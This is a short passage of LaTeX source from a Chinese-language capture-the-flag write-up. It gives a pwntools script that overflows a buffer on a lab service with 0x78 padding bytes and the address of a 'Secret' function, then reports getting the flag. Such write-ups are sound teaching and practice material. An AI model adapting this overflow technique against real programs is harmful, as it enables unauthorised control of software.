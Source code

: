 \documentclass{article}
\begin{document}
    \begin{figure}[H]
    	\begin{center}
    		\includegraphics[width=0.9\textwidth]{2.png}
    	\end{center}
    \end{figure}
    Secret函数的地址为0x00401235，则编写脚本如下：
    \begin{itemize}
    	\item 脚本1
    	\begin{lstlisting}{language=Python}
from pwn import *

io = remote("10.0.0.10", 40003)

io.recvuntil("something")

io.send(b'q'*0x78 + p32(0x00401235))

io.interactive()
    		
    	\end{lstlisting}
    \end{itemize}
    运行结果如下，得到flag。
    \begin{figure}[H]
    	\begin{center}
    		\includegraphics[width=0.9\textwidth]{3.png}
    	\end{center}
    \end{figure}
   
\end{document}
